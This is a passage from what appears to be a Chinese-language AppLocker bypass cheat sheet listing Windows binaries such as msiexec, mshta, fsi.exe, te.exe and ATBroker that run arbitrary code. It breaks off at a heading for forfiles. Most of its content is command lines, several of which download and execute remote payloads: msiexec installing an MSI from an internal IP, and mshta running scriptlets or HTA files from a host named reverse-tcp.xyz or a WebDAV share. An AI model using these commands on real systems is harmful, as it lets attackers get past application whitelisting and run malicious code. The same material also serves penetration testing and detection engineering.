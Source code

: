 ```powershell
msiexec /quiet /i cmd.msi 
msiexec /q /i http://192.168.100.3/tmp/cmd.png
```

Links:

- https://pentestlab.blog/2017/06/16/applocker-bypass-msiexec/

#### Mshta

Msht具有执行内联脚本的能力，它将下载并执行一个脚本作为有效负载:

```powershell
mshta vbscript:Close(Execute("GetObject(""script:http://reverse-tcp.xyz/payload.sct"")"))
```

mshta接受URL作为一个参数来执行HTA

```powershell
mshta http://reverse-tcp.xyz/payload.hta
mshta \\webdavserver\folder\payload.hta
```

#### FSI

fsi.exe用于在控制台中交互式地运行fcode，或者执行fscript。

```powershell
fsi.exe c:\folder\d.fscript
```

Links:

- https://twitter.com/NickTyrer/status/904273264385589248
- https://github.com/api0cradle/UltimateAppLockerByPassList

#### TE

如果安装了TAEF（Test Authoring and Execution Framework）框架并且位于列入白名单的路径中，则可以使用它。 默认位置是：C:\\ program files(x86)\\Windows Kits\\10\\testing\\Runtimes\\TAEF

```powershell
te.exe bypass.wsc
```

Links:

- https://twitter.com/gN3mes1s/status/927680266390384640
- https://gist.github.com/N3mes1s/5b75a4cd6aa4d41bb742acace2c8ab42

#### Atbroker

```powershell
ATBroker.exe /start malware
```

Links:

- http://www.hexacorn.com/blog/2016/07/22/beyond-good-ol-run-key-part-42/

#### Forfiles
